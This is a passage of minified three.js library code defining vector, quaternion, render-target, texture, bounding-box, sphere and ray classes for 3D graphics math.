this.x=Math.max(t,Math.min(e,this.x)),this.y=Math.max(t,Math.min(e,this.y)),this.z=Math.max(t,Math.min(e,this.z)),this.w=Math.max(t,Math.min(e,this.w)),this}clampLength(t,e){const n=this.length();return this.divideScalar(n||1).multiplyScalar(Math.max(t,Math.min(e,n)))}floor(){return this.x=Math.floor(this.x),this.y=Math.floor(this.y),this.z=Math.floor(this.z),this.w=Math.floor(this.w),this}ceil(){return this.x=Math.ceil(this.x),this.y=Math.ceil(this.y),this.z=Math.ceil(this.z),this.w=Math.ceil(this.w),this}round(){return this.x=Math.round(this.x),this.y=Math.round(this.y),this.z=Math.round(this.z),this.w=Math.round(this.w),this}roundToZero(){return this.x=Math.trunc(this.x),this.y=Math.trunc(this.y),this.z=Math.trunc(this.z),this.w=Math.trunc(this.w),this}negate(){return this.x=-this.x,this.y=-this.y,this.z=-this.z,this.w=-this.w,this}dot(t){return this.x*t.x+this.y*t.y+this.z*t.z+this.w*t.w}lengthSq(){return this.x*this.x+this.y*this.y+this.z*this.z+this.w*this.w}length(){return Math.sqrt(this.x*this.x+this.y*this.y+this.z*this.z+this.w*this.w)}manhattanLength(){return Math.abs(this.x)+Math.abs(this.y)+Math.abs(this.z)+Math.abs(this.w)}normalize(){return this.divideScalar(this.length()||1)}setLength(t){return this.normalize().multiplyScalar(t)}lerp(t,e){return this.x+=(t.x-this.x)*e,this.y+=(t.y-this.y)*e,this.z+=(t.z-this.z)*e,this.w+=(t.w-this.w)*e,this}lerpVectors(t,e,n){return this.x=t.x+(e.x-t.x)*n,this.y=t.y+(e.y-t.y)*n,this.z=t.z+(e.z-t.z)*n,this.w=t.w+(e.w-t.w)*n,this}equals(t){return t.x===this.x&&t.y===this.y&&t.z===this.z&&t.w===this.w}fromArray(t,e=0){return this.x=t[e],this.y=t[e+1],this.z=t[e+2],this.w=t[e+3],this}toArray(t=[],e=0){return t[e]=this.x,t[e+1]=this.y,t[e+2]=this.z,t[e+3]=this.w,t}fromBufferAttribute(t,e){return this.x=t.getX(e),this.y=t.getY(e),this.z=t.getZ(e),this.w=t.getW(e),this}random(){return this.x=Math.random(),this.y=Math.random(),this.z=Math.random(),this.w=Math.random(),this}*[Symbol.iterator](){yield this.x,yield this.y,yield this.z,yield this.w}}class He extends oe{constructor(t=1,e=1,n={}){super(),this.isRenderTarget=!0,this.width=t,this.height=e,this.depth=1,this.scissor=new Be(0,0,t,e),this.scissorTest=!1,this.viewport=new Be(0,0,t,e);const i={width:t,height:e,depth:1};n=Object.assign({generateMipmaps:!1,internalFormat:null,minFilter:H,depthBuffer:!0,stencilBuffer:!1,resolveDepthBuffer:!0,resolveStencilBuffer:!0,depthTexture:null,samples:0,count:1},n);const r=new ze(i,n.mapping,n.wrapS,n.wrapT,n.magFilter,n.minFilter,n.format,n.type,n.anisotropy,n.colorSpace);r.flipY=!1,r.generateMipmaps=n.generateMipmaps,r.internalFormat=n.internalFormat,this.textures=[];const a=n.count;for(let t=0;t<a;t++)this.textures[t]=r.clone(),this.textures[t].isRenderTargetTexture=!0;this.depthBuffer=n.depthBuffer,this.stencilBuffer=n.stencilBuffer,this.resolveDepthBuffer=n.resolveDepthBuffer,this.resolveStencilBuffer=n.resolveStencilBuffer,this.depthTexture=n.depthTexture,this.samples=n.samples}get texture(){return this.textures[0]}set texture(t){this.textures[0]=t}setSize(t,e,n=1){if(this.width!==t||this.height!==e||this.depth!==n){this.width=t,this.height=e,this.depth=n;for(let i=0,r=this.textures.length;i<r;i++)this.textures[i].image.width=t,this.textures[i].image.height=e,this.textures[i].image.depth=n;this.dispose()}this.viewport.set(0,0,t,e),this.scissor.set(0,0,t,e)}clone(){return(new this.constructor).copy(this)}copy(t){this.width=t.width,this.height=t.height,this.depth=t.depth,this.scissor.copy(t.scissor),this.scissorTest=t.scissorTest,this.viewport.copy(t.viewport),this.textures.length=0;for(let e=0,n=t.textures.length;e<n;e++)this.textures[e]=t.textures[e].clone(),this.textures[e].isRenderTargetTexture=!0;const e=Object.assign({},t.texture.image);return this.texture.source=new Ne(e),this.depthBuffer=t.depthBuffer,this.stencilBuffer=t.stencilBuffer,this.resolveDepthBuffer=t.resolveDepthBuffer,this.resolveStencilBuffer=t.resolveStencilBuffer,null!==t.depthTexture&&(this.depthTexture=t.depthTexture.clone()),this.samples=t.samples,this}dispose(){this.dispatchEvent({type:"dispose"})}}class Ve extends He{constructor(t=1,e=1,n={}){super(t,e,n),this.isWebGLRenderTarget=!0}}class Ge extends ze{constructor(t=null,e=1,n=1,i=1){super(null),this.isDataArrayTexture=!0,this.image={data:t,width:e,height:n,depth:i},this.magFilter=k,this.minFilter=k,this.wrapR=N,this.generateMipmaps=!1,this.flipY=!1,this.unpackAlignment=1,this.layerUpdates=new Set}addLayerUpdate(t){this.layerUpdates.add(t)}clearLayerUpdates(){this.layerUpdates.clear()}}class je extends ze{constructor(t=null,e=1,n=1,i=1){super(null),this.isData3DTexture=!0,this.image={data:t,width:e,height:n,depth:i},this.magFilter=k,this.minFilter=k,this.wrapR=N,this.generateMipmaps=!1,this.flipY=!1,this.unpackAlignment=1}}class We{constructor(t=0,e=0,n=0,i=1){this.isQuaternion=!0,this._x=t,this._y=e,this._z=n,this._w=i}static slerpFlat(t,e,n,i,r,a,o){let s=n[i+0],l=n[i+1],c=n[i+2],h=n[i+3];const u=r[a+0],d=r[a+1],p=r[a+2],f=r[a+3];if(0===o)return t[e+0]=s,t[e+1]=l,t[e+2]=c,void(t[e+3]=h);if(1===o)return t[e+0]=u,t[e+1]=d,t[e+2]=p,void(t[e+3]=f);if(h!==f||s!==u||l!==d||c!==p){let t=1-o;const e=s*u+l*d+c*p+h*f,n=e>=0?1:-1,i=1-e*e;if(i>Number.EPSILON){const r=Math.sqrt(i),a=Math.atan2(r,e*n);t=Math.sin(t*a)/r,o=Math.sin(o*a)/r}const r=o*n;if(s=s*t+u*r,l=l*t+d*r,c=c*t+p*r,h=h*t+f*r,t===1-o){const t=1/Math.sqrt(s*s+l*l+c*c+h*h);s*=t,l*=t,c*=t,h*=t}}t[e]=s,t[e+1]=l,t[e+2]=c,t[e+3]=h}static multiplyQuaternionsFlat(t,e,n,i,r,a){const o=n[i],s=n[i+1],l=n[i+2],c=n[i+3],h=r[a],u=r[a+1],d=r[a+2],p=r[a+3];return t[e]=o*p+c*h+s*d-l*u,t[e+1]=s*p+c*u+l*h-o*d,t[e+2]=l*p+c*d+o*u-s*h,t[e+3]=c*p-o*h-s*u-l*d,t}get x(){return this._x}set x(t){this._x=t,this._onChangeCallback()}get y(){return this._y}set y(t){this._y=t,this._onChangeCallback()}get z(){return this._z}set z(t){this._z=t,this._onChangeCallback()}get w(){return this._w}set w(t){this._w=t,this._onChangeCallback()}set(t,e,n,i){return this._x=t,this._y=e,this._z=n,this._w=i,this._onChangeCallback(),this}clone(){return new this.constructor(this._x,this._y,this._z,this._w)}copy(t){return this._x=t.x,this._y=t.y,this._z=t.z,this._w=t.w,this._onChangeCallback(),this}setFromEuler(t,e=!0){const n=t._x,i=t._y,r=t._z,a=t._order,o=Math.cos,s=Math.sin,l=o(n/2),c=o(i/2),h=o(r/2),u=s(n/2),d=s(i/2),p=s(r/2);switch(a){case"XYZ":this._x=u*c*h+l*d*p,this._y=l*d*h-u*c*p,this._z=l*c*p+u*d*h,this._w=l*c*h-u*d*p;break;case"YXZ":this._x=u*c*h+l*d*p,this._y=l*d*h-u*c*p,this._z=l*c*p-u*d*h,this._w=l*c*h+u*d*p;break;case"ZXY":this._x=u*c*h-l*d*p,this._y=l*d*h+u*c*p,this._z=l*c*p+u*d*h,this._w=l*c*h-u*d*p;break;case"ZYX":this._x=u*c*h-l*d*p,this._y=l*d*h+u*c*p,this._z=l*c*p-u*d*h,this._w=l*c*h+u*d*p;break;case"YZX":this._x=u*c*h+l*d*p,this._y=l*d*h+u*c*p,this._z=l*c*p-u*d*h,this._w=l*c*h-u*d*p;break;case"XZY":this._x=u*c*h-l*d*p,this._y=l*d*h-u*c*p,this._z=l*c*p+u*d*h,this._w=l*c*h+u*d*p;break;default:console.warn("THREE.Quaternion: .setFromEuler() encountered an unknown order: "+a)}return!0===e&&this._onChangeCallback(),this}setFromAxisAngle(t,e){const n=e/2,i=Math.sin(n);return this._x=t.x*i,this._y=t.y*i,this._z=t.z*i,this._w=Math.cos(n),this._onChangeCallback(),this}setFromRotationMatrix(t){const e=t.elements,n=e[0],i=e[4],r=e[8],a=e[1],o=e[5],s=e[9],l=e[2],c=e[6],h=e[10],u=n+o+h;if(u>0){const t=.5/Math.sqrt(u+1);this._w=.25/t,this._x=(c-s)*t,this._y=(r-l)*t,this._z=(a-i)*t}else if(n>o&&n>h){const t=2*Math.sqrt(1+n-o-h);this._w=(c-s)/t,this._x=.25*t,this._y=(i+a)/t,this._z=(r+l)/t}else if(o>h){const t=2*Math.sqrt(1+o-n-h);this._w=(r-l)/t,this._x=(i+a)/t,this._y=.25*t,this._z=(s+c)/t}else{const t=2*Math.sqrt(1+h-n-o);this._w=(a-i)/t,this._x=(r+l)/t,this._y=(s+c)/t,this._z=.25*t}return this._onChangeCallback(),this}setFromUnitVectors(t,e){let n=t.dot(e)+1;return n<Number.EPSILON?(n=0,Math.abs(t.x)>Math.abs(t.z)?(this._x=-t.y,this._y=t.x,this._z=0,this._w=n):(this._x=0,this._y=-t.z,this._z=t.y,this._w=n)):(this._x=t.y*e.z-t.z*e.y,this._y=t.z*e.x-t.x*e.z,this._z=t.x*e.y-t.y*e.x,this._w=n),this.normalize()}angleTo(t){return 2*Math.acos(Math.abs(de(this.dot(t),-1,1)))}rotateTowards(t,e){const n=this.angleTo(t);if(0===n)return this;const i=Math.min(1,e/n);return this.slerp(t,i),this}identity(){return this.set(0,0,0,1)}invert(){return this.conjugate()}conjugate(){return this._x*=-1,this._y*=-1,this._z*=-1,this._onChangeCallback(),this}dot(t){return this._x*t._x+this._y*t._y+this._z*t._z+this._w*t._w}lengthSq(){return this._x*this._x+this._y*this._y+this._z*this._z+this._w*this._w}length(){return Math.sqrt(this._x*this._x+this._y*this._y+this._z*this._z+this._w*this._w)}normalize(){let t=this.length();return 0===t?(this._x=0,this._y=0,this._z=0,this._w=1):(t=1/t,this._x=this._x*t,this._y=this._y*t,this._z=this._z*t,this._w=this._w*t),this._onChangeCallback(),this}multiply(t){return this.multiplyQuaternions(this,t)}premultiply(t){return this.multiplyQuaternions(t,this)}multiplyQuaternions(t,e){const n=t._x,i=t._y,r=t._z,a=t._w,o=e._x,s=e._y,l=e._z,c=e._w;return this._x=n*c+a*o+i*l-r*s,this._y=i*c+a*s+r*o-n*l,this._z=r*c+a*l+n*s-i*o,this._w=a*c-n*o-i*s-r*l,this._onChangeCallback(),this}slerp(t,e){if(0===e)return this;if(1===e)return this.copy(t);const n=this._x,i=this._y,r=this._z,a=this._w;let o=a*t._w+n*t._x+i*t._y+r*t._z;if(o<0?(this._w=-t._w,this._x=-t._x,this._y=-t._y,this._z=-t._z,o=-o):this.copy(t),o>=1)return this._w=a,this._x=n,this._y=i,this._z=r,this;const s=1-o*o;if(s<=Number.EPSILON){const t=1-e;return this._w=t*a+e*this._w,this._x=t*n+e*this._x,this._y=t*i+e*this._y,this._z=t*r+e*this._z,this.normalize(),this}const l=Math.sqrt(s),c=Math.atan2(l,o),h=Math.sin((1-e)*c)/l,u=Math.sin(e*c)/l;return this._w=a*h+this._w*u,this._x=n*h+this._x*u,this._y=i*h+this._y*u,this._z=r*h+this._z*u,this._onChangeCallback(),this}slerpQuaternions(t,e,n){return this.copy(t).slerp(e,n)}random(){const t=2*Math.PI*Math.random(),e=2*Math.PI*Math.random(),n=Math.random(),i=Math.sqrt(1-n),r=Math.sqrt(n);return this.set(i*Math.sin(t),i*Math.cos(t),r*Math.sin(e),r*Math.cos(e))}equals(t){return t._x===this._x&&t._y===this._y&&t._z===this._z&&t._w===this._w}fromArray(t,e=0){return this._x=t[e],this._y=t[e+1],this._z=t[e+2],this._w=t[e+3],this._onChangeCallback(),this}toArray(t=[],e=0){return t[e]=this._x,t[e+1]=this._y,t[e+2]=this._z,t[e+3]=this._w,t}fromBufferAttribute(t,e){return this._x=t.getX(e),this._y=t.getY(e),this._z=t.getZ(e),this._w=t.getW(e),this._onChangeCallback(),this}toJSON(){return this.toArray()}_onChange(t){return this._onChangeCallback=t,this}_onChangeCallback(){}*[Symbol.iterator](){yield this._x,yield this._y,yield this._z,yield this._w}}class Xe{constructor(t=0,e=0,n=0){Xe.prototype.isVector3=!0,this.x=t,this.y=e,this.z=n}set(t,e,n){return void 0===n&&(n=this.z),this.x=t,this.y=e,this.z=n,this}setScalar(t){return this.x=t,this.y=t,this.z=t,this}setX(t){return this.x=t,this}setY(t){return this.y=t,this}setZ(t){return this.z=t,this}setComponent(t,e){switch(t){case 0:this.x=e;break;case 1:this.y=e;break;case 2:this.z=e;break;default:throw new Error("index is out of range: "+t)}return this}getComponent(t){switch(t){case 0:return this.x;case 1:return this.y;case 2:return this.z;default:throw new Error("index is out of range: "+t)}}clone(){return new this.constructor(this.x,this.y,this.z)}copy(t){return this.x=t.x,this.y=t.y,this.z=t.z,this}add(t){return this.x+=t.x,this.y+=t.y,this.z+=t.z,this}addScalar(t){return this.x+=t,this.y+=t,this.z+=t,this}addVectors(t,e){return this.x=t.x+e.x,this.y=t.y+e.y,this.z=t.z+e.z,this}addScaledVector(t,e){return this.x+=t.x*e,this.y+=t.y*e,this.z+=t.z*e,this}sub(t){return this.x-=t.x,this.y-=t.y,this.z-=t.z,this}subScalar(t){return this.x-=t,this.y-=t,this.z-=t,this}subVectors(t,e){return this.x=t.x-e.x,this.y=t.y-e.y,this.z=t.z-e.z,this}multiply(t){return this.x*=t.x,this.y*=t.y,this.z*=t.z,this}multiplyScalar(t){return this.x*=t,this.y*=t,this.z*=t,this}multiplyVectors(t,e){return this.x=t.x*e.x,this.y=t.y*e.y,this.z=t.z*e.z,this}applyEuler(t){return this.applyQuaternion(Ye.setFromEuler(t))}applyAxisAngle(t,e){return this.applyQuaternion(Ye.setFromAxisAngle(t,e))}applyMatrix3(t){const e=this.x,n=this.y,i=this.z,r=t.elements;return this.x=r[0]*e+r[3]*n+r[6]*i,this.y=r[1]*e+r[4]*n+r[7]*i,this.z=r[2]*e+r[5]*n+r[8]*i,this}applyNormalMatrix(t){return this.applyMatrix3(t).normalize()}applyMatrix4(t){const e=this.x,n=this.y,i=this.z,r=t.elements,a=1/(r[3]*e+r[7]*n+r[11]*i+r[15]);return this.x=(r[0]*e+r[4]*n+r[8]*i+r[12])*a,this.y=(r[1]*e+r[5]*n+r[9]*i+r[13])*a,this.z=(r[2]*e+r[6]*n+r[10]*i+r[14])*a,this}applyQuaternion(t){const e=this.x,n=this.y,i=this.z,r=t.x,a=t.y,o=t.z,s=t.w,l=2*(a*i-o*n),c=2*(o*e-r*i),h=2*(r*n-a*e);return this.x=e+s*l+a*h-o*c,this.y=n+s*c+o*l-r*h,this.z=i+s*h+r*c-a*l,this}project(t){return this.applyMatrix4(t.matrixWorldInverse).applyMatrix4(t.projectionMatrix)}unproject(t){return this.applyMatrix4(t.projectionMatrixInverse).applyMatrix4(t.matrixWorld)}transformDirection(t){const e=this.x,n=this.y,i=this.z,r=t.elements;return this.x=r[0]*e+r[4]*n+r[8]*i,this.y=r[1]*e+r[5]*n+r[9]*i,this.z=r[2]*e+r[6]*n+r[10]*i,this.normalize()}divide(t){return this.x/=t.x,this.y/=t.y,this.z/=t.z,this}divideScalar(t){return this.multiplyScalar(1/t)}min(t){return this.x=Math.min(this.x,t.x),this.y=Math.min(this.y,t.y),this.z=Math.min(this.z,t.z),this}max(t){return this.x=Math.max(this.x,t.x),this.y=Math.max(this.y,t.y),this.z=Math.max(this.z,t.z),this}clamp(t,e){return this.x=Math.max(t.x,Math.min(e.x,this.x)),this.y=Math.max(t.y,Math.min(e.y,this.y)),this.z=Math.max(t.z,Math.min(e.z,this.z)),this}clampScalar(t,e){return this.x=Math.max(t,Math.min(e,this.x)),this.y=Math.max(t,Math.min(e,this.y)),this.z=Math.max(t,Math.min(e,this.z)),this}clampLength(t,e){const n=this.length();return this.divideScalar(n||1).multiplyScalar(Math.max(t,Math.min(e,n)))}floor(){return this.x=Math.floor(this.x),this.y=Math.floor(this.y),this.z=Math.floor(this.z),this}ceil(){return this.x=Math.ceil(this.x),this.y=Math.ceil(this.y),this.z=Math.ceil(this.z),this}round(){return this.x=Math.round(this.x),this.y=Math.round(this.y),this.z=Math.round(this.z),this}roundToZero(){return this.x=Math.trunc(this.x),this.y=Math.trunc(this.y),this.z=Math.trunc(this.z),this}negate(){return this.x=-this.x,this.y=-this.y,this.z=-this.z,this}dot(t){return this.x*t.x+this.y*t.y+this.z*t.z}lengthSq(){return this.x*this.x+this.y*this.y+this.z*this.z}length(){return Math.sqrt(this.x*this.x+this.y*this.y+this.z*this.z)}manhattanLength(){return Math.abs(this.x)+Math.abs(this.y)+Math.abs(this.z)}normalize(){return this.divideScalar(this.length()||1)}setLength(t){return this.normalize().multiplyScalar(t)}lerp(t,e){return this.x+=(t.x-this.x)*e,this.y+=(t.y-this.y)*e,this.z+=(t.z-this.z)*e,this}lerpVectors(t,e,n){return this.x=t.x+(e.x-t.x)*n,this.y=t.y+(e.y-t.y)*n,this.z=t.z+(e.z-t.z)*n,this}cross(t){return this.crossVectors(this,t)}crossVectors(t,e){const n=t.x,i=t.y,r=t.z,a=e.x,o=e.y,s=e.z;return this.x=i*s-r*o,this.y=r*a-n*s,this.z=n*o-i*a,this}projectOnVector(t){const e=t.lengthSq();if(0===e)return this.set(0,0,0);const n=t.dot(this)/e;return this.copy(t).multiplyScalar(n)}projectOnPlane(t){return qe.copy(this).projectOnVector(t),this.sub(qe)}reflect(t){return this.sub(qe.copy(t).multiplyScalar(2*this.dot(t)))}angleTo(t){const e=Math.sqrt(this.lengthSq()*t.lengthSq());if(0===e)return Math.PI/2;const n=this.dot(t)/e;return Math.acos(de(n,-1,1))}distanceTo(t){return Math.sqrt(this.distanceToSquared(t))}distanceToSquared(t){const e=this.x-t.x,n=this.y-t.y,i=this.z-t.z;return e*e+n*n+i*i}manhattanDistanceTo(t){return Math.abs(this.x-t.x)+Math.abs(this.y-t.y)+Math.abs(this.z-t.z)}setFromSpherical(t){return this.setFromSphericalCoords(t.radius,t.phi,t.theta)}setFromSphericalCoords(t,e,n){const i=Math.sin(e)*t;return this.x=i*Math.sin(n),this.y=Math.cos(e)*t,this.z=i*Math.cos(n),this}setFromCylindrical(t){return this.setFromCylindricalCoords(t.radius,t.theta,t.y)}setFromCylindricalCoords(t,e,n){return this.x=t*Math.sin(e),this.y=n,this.z=t*Math.cos(e),this}setFromMatrixPosition(t){const e=t.elements;return this.x=e[12],this.y=e[13],this.z=e[14],this}setFromMatrixScale(t){const e=this.setFromMatrixColumn(t,0).length(),n=this.setFromMatrixColumn(t,1).length(),i=this.setFromMatrixColumn(t,2).length();return this.x=e,this.y=n,this.z=i,this}setFromMatrixColumn(t,e){return this.fromArray(t.elements,4*e)}setFromMatrix3Column(t,e){return this.fromArray(t.elements,3*e)}setFromEuler(t){return this.x=t._x,this.y=t._y,this.z=t._z,this}setFromColor(t){return this.x=t.r,this.y=t.g,this.z=t.b,this}equals(t){return t.x===this.x&&t.y===this.y&&t.z===this.z}fromArray(t,e=0){return this.x=t[e],this.y=t[e+1],this.z=t[e+2],this}toArray(t=[],e=0){return t[e]=this.x,t[e+1]=this.y,t[e+2]=this.z,t}fromBufferAttribute(t,e){return this.x=t.getX(e),this.y=t.getY(e),this.z=t.getZ(e),this}random(){return this.x=Math.random(),this.y=Math.random(),this.z=Math.random(),this}randomDirection(){const t=Math.random()*Math.PI*2,e=2*Math.random()-1,n=Math.sqrt(1-e*e);return this.x=n*Math.cos(t),this.y=e,this.z=n*Math.sin(t),this}*[Symbol.iterator](){yield this.x,yield this.y,yield this.z}}const qe=new Xe,Ye=new We;class Ke{constructor(t=new Xe(1/0,1/0,1/0),e=new Xe(-1/0,-1/0,-1/0)){this.isBox3=!0,this.min=t,this.max=e}set(t,e){return this.min.copy(t),this.max.copy(e),this}setFromArray(t){this.makeEmpty();for(let e=0,n=t.length;e<n;e+=3)this.expandByPoint($e.fromArray(t,e));return this}setFromBufferAttribute(t){this.makeEmpty();for(let e=0,n=t.count;e<n;e++)this.expandByPoint($e.fromBufferAttribute(t,e));return this}setFromPoints(t){this.makeEmpty();for(let e=0,n=t.length;e<n;e++)this.expandByPoint(t[e]);return this}setFromCenterAndSize(t,e){const n=$e.copy(e).multiplyScalar(.5);return this.min.copy(t).sub(n),this.max.copy(t).add(n),this}setFromObject(t,e=!1){return this.makeEmpty(),this.expandByObject(t,e)}clone(){return(new this.constructor).copy(this)}copy(t){return this.min.copy(t.min),this.max.copy(t.max),this}makeEmpty(){return this.min.x=this.min.y=this.min.z=1/0,this.max.x=this.max.y=this.max.z=-1/0,this}isEmpty(){return this.max.x<this.min.x||this.max.y<this.min.y||this.max.z<this.min.z}getCenter(t){return this.isEmpty()?t.set(0,0,0):t.addVectors(this.min,this.max).multiplyScalar(.5)}getSize(t){return this.isEmpty()?t.set(0,0,0):t.subVectors(this.max,this.min)}expandByPoint(t){return this.min.min(t),this.max.max(t),this}expandByVector(t){return this.min.sub(t),this.max.add(t),this}expandByScalar(t){return this.min.addScalar(-t),this.max.addScalar(t),this}expandByObject(t,e=!1){t.updateWorldMatrix(!1,!1);const n=t.geometry;if(void 0!==n){const i=n.getAttribute("position");if(!0===e&&void 0!==i&&!0!==t.isInstancedMesh)for(let e=0,n=i.count;e<n;e++)!0===t.isMesh?t.getVertexPosition(e,$e):$e.fromBufferAttribute(i,e),$e.applyMatrix4(t.matrixWorld),this.expandByPoint($e);else void 0!==t.boundingBox?(null===t.boundingBox&&t.computeBoundingBox(),Je.copy(t.boundingBox)):(null===n.boundingBox&&n.computeBoundingBox(),Je.copy(n.boundingBox)),Je.applyMatrix4(t.matrixWorld),this.union(Je)}const i=t.children;for(let t=0,n=i.length;t<n;t++)this.expandByObject(i[t],e);return this}containsPoint(t){return t.x>=this.min.x&&t.x<=this.max.x&&t.y>=this.min.y&&t.y<=this.max.y&&t.z>=this.min.z&&t.z<=this.max.z}containsBox(t){return this.min.x<=t.min.x&&t.max.x<=this.max.x&&this.min.y<=t.min.y&&t.max.y<=this.max.y&&this.min.z<=t.min.z&&t.max.z<=this.max.z}getParameter(t,e){return e.set((t.x-this.min.x)/(this.max.x-this.min.x),(t.y-this.min.y)/(this.max.y-this.min.y),(t.z-this.min.z)/(this.max.z-this.min.z))}intersectsBox(t){return t.max.x>=this.min.x&&t.min.x<=this.max.x&&t.max.y>=this.min.y&&t.min.y<=this.max.y&&t.max.z>=this.min.z&&t.min.z<=this.max.z}intersectsSphere(t){return this.clampPoint(t.center,$e),$e.distanceToSquared(t.center)<=t.radius*t.radius}intersectsPlane(t){let e,n;return t.normal.x>0?(e=t.normal.x*this.min.x,n=t.normal.x*this.max.x):(e=t.normal.x*this.max.x,n=t.normal.x*this.min.x),t.normal.y>0?(e+=t.normal.y*this.min.y,n+=t.normal.y*this.max.y):(e+=t.normal.y*this.max.y,n+=t.normal.y*this.min.y),t.normal.z>0?(e+=t.normal.z*this.min.z,n+=t.normal.z*this.max.z):(e+=t.normal.z*this.max.z,n+=t.normal.z*this.min.z),e<=-t.constant&&n>=-t.constant}intersectsTriangle(t){if(this.isEmpty())return!1;this.getCenter(on),sn.subVectors(this.max,on),Qe.subVectors(t.a,on),tn.subVectors(t.b,on),en.subVectors(t.c,on),nn.subVectors(tn,Qe),rn.subVectors(en,tn),an.subVectors(Qe,en);let e=[0,-nn.z,nn.y,0,-rn.z,rn.y,0,-an.z,an.y,nn.z,0,-nn.x,rn.z,0,-rn.x,an.z,0,-an.x,-nn.y,nn.x,0,-rn.y,rn.x,0,-an.y,an.x,0];return!!hn(e,Qe,tn,en,sn)&&(e=[1,0,0,0,1,0,0,0,1],!!hn(e,Qe,tn,en,sn)&&(ln.crossVectors(nn,rn),e=[ln.x,ln.y,ln.z],hn(e,Qe,tn,en,sn)))}clampPoint(t,e){return e.copy(t).clamp(this.min,this.max)}distanceToPoint(t){return this.clampPoint(t,$e).distanceTo(t)}getBoundingSphere(t){return this.isEmpty()?t.makeEmpty():(this.getCenter(t.center),t.radius=.5*this.getSize($e).length()),t}intersect(t){return this.min.max(t.min),this.max.min(t.max),this.isEmpty()&&this.makeEmpty(),this}union(t){return this.min.min(t.min),this.max.max(t.max),this}applyMatrix4(t){return this.isEmpty()||(Ze[0].set(this.min.x,this.min.y,this.min.z).applyMatrix4(t),Ze[1].set(this.min.x,this.min.y,this.max.z).applyMatrix4(t),Ze[2].set(this.min.x,this.max.y,this.min.z).applyMatrix4(t),Ze[3].set(this.min.x,this.max.y,this.max.z).applyMatrix4(t),Ze[4].set(this.max.x,this.min.y,this.min.z).applyMatrix4(t),Ze[5].set(this.max.x,this.min.y,this.max.z).applyMatrix4(t),Ze[6].set(this.max.x,this.max.y,this.min.z).applyMatrix4(t),Ze[7].set(this.max.x,this.max.y,this.max.z).applyMatrix4(t),this.setFromPoints(Ze)),this}translate(t){return this.min.add(t),this.max.add(t),this}equals(t){return t.min.equals(this.min)&&t.max.equals(this.max)}}const Ze=[new Xe,new Xe,new Xe,new Xe,new Xe,new Xe,new Xe,new Xe],$e=new Xe,Je=new Ke,Qe=new Xe,tn=new Xe,en=new Xe,nn=new Xe,rn=new Xe,an=new Xe,on=new Xe,sn=new Xe,ln=new Xe,cn=new Xe;function hn(t,e,n,i,r){for(let a=0,o=t.length-3;a<=o;a+=3){cn.fromArray(t,a);const o=r.x*Math.abs(cn.x)+r.y*Math.abs(cn.y)+r.z*Math.abs(cn.z),s=e.dot(cn),l=n.dot(cn),c=i.dot(cn);if(Math.max(-Math.max(s,l,c),Math.min(s,l,c))>o)return!1}return!0}const un=new Ke,dn=new Xe,pn=new Xe;class fn{constructor(t=new Xe,e=-1){this.isSphere=!0,this.center=t,this.radius=e}set(t,e){return this.center.copy(t),this.radius=e,this}setFromPoints(t,e){const n=this.center;void 0!==e?n.copy(e):un.setFromPoints(t).getCenter(n);let i=0;for(let e=0,r=t.length;e<r;e++)i=Math.max(i,n.distanceToSquared(t[e]));return this.radius=Math.sqrt(i),this}copy(t){return this.center.copy(t.center),this.radius=t.radius,this}isEmpty(){return this.radius<0}makeEmpty(){return this.center.set(0,0,0),this.radius=-1,this}containsPoint(t){return t.distanceToSquared(this.center)<=this.radius*this.radius}distanceToPoint(t){return t.distanceTo(this.center)-this.radius}intersectsSphere(t){const e=this.radius+t.radius;return t.center.distanceToSquared(this.center)<=e*e}intersectsBox(t){return t.intersectsSphere(this)}intersectsPlane(t){return Math.abs(t.distanceToPoint(this.center))<=this.radius}clampPoint(t,e){const n=this.center.distanceToSquared(t);return e.copy(t),n>this.radius*this.radius&&(e.sub(this.center).normalize(),e.multiplyScalar(this.radius).add(this.center)),e}getBoundingBox(t){return this.isEmpty()?(t.makeEmpty(),t):(t.set(this.center,this.center),t.expandByScalar(this.radius),t)}applyMatrix4(t){return this.center.applyMatrix4(t),this.radius=this.radius*t.getMaxScaleOnAxis(),this}translate(t){return this.center.add(t),this}expandByPoint(t){if(this.isEmpty())return this.center.copy(t),this.radius=0,this;dn.subVectors(t,this.center);const e=dn.lengthSq();if(e>this.radius*this.radius){const t=Math.sqrt(e),n=.5*(t-this.radius);this.center.addScaledVector(dn,n/t),this.radius+=n}return this}union(t){return t.isEmpty()?this:this.isEmpty()?(this.copy(t),this):(!0===this.center.equals(t.center)?this.radius=Math.max(this.radius,t.radius):(pn.subVectors(t.center,this.center).setLength(t.radius),this.expandByPoint(dn.copy(t.center).add(pn)),this.expandByPoint(dn.copy(t.center).sub(pn))),this)}equals(t){return t.center.equals(this.center)&&t.radius===this.radius}clone(){return(new this.constructor).copy(this)}}const mn=new Xe,gn=new Xe,_n=new Xe,vn=new Xe,yn=new Xe,xn=new Xe,bn=new Xe;class Mn{constructor(t=new Xe,e=new Xe(0,0,-1)){this.origin=t,this.direction=e}set(t,e){return this.origin.copy(t),this.direction.copy(e),this}copy(t){return this.origin.copy(t.origin),this.direction.copy(t.direction),this}at(t,e){return e.copy(this.origin).addScaledVector(this.direction,t)}lookAt(t){return this.direction.copy(t).sub(this.origin).normalize(),this}recast(t){return this.origin.copy(this.at(t,mn)),this}closestPointToPoint(t,e){e.subVectors(t,this.origin);const n=e.dot(this.direction);return n<0?e.copy(this.origin):e.copy(this.origin).addScaledVector(this.direction,n)}distanceToPoint(t){return Math.sqrt(this.distanceSqToPoint(t))}distanceSqToPoint(t){const e=mn.subVectors(t,this.origin).dot(this.direction);return e<0?this.origin.distanceToSquared(t):(mn.copy(this.origin).addScaledVector(this.direction,e),mn.distanceToSquared(t))}distanceSqToSegment(t,e,n,i){gn.copy(t).add(e).multiplyScalar(.5),_n.copy(e).sub(t).normalize(),vn.copy(this.origin).sub(gn);const r=.5*t.distanceTo(e),a=-this.direction.dot(_n),o=vn.dot(this.direction),s=-vn.dot(_n),l=vn.lengthSq(),c=Math.abs(1-a*a);let h,u,d,p;if(c>0)if(h=a*s-o,u=a*o-s,p=r*c,h>=0)if(u>=-p)if(u<=p){const t=1/c;h*=t,u*=t,d=h*(h+a*u+2*o)+u*(a*h+u+2*s)+l}else u=r,h=Math.max(0,-(a*u+o)),d=-h*h+u*(u+2*s)+l;else u=-r,h=Math.max(0,-(a*u+o)),d=-h*h+u*(u+2*s)+l;else 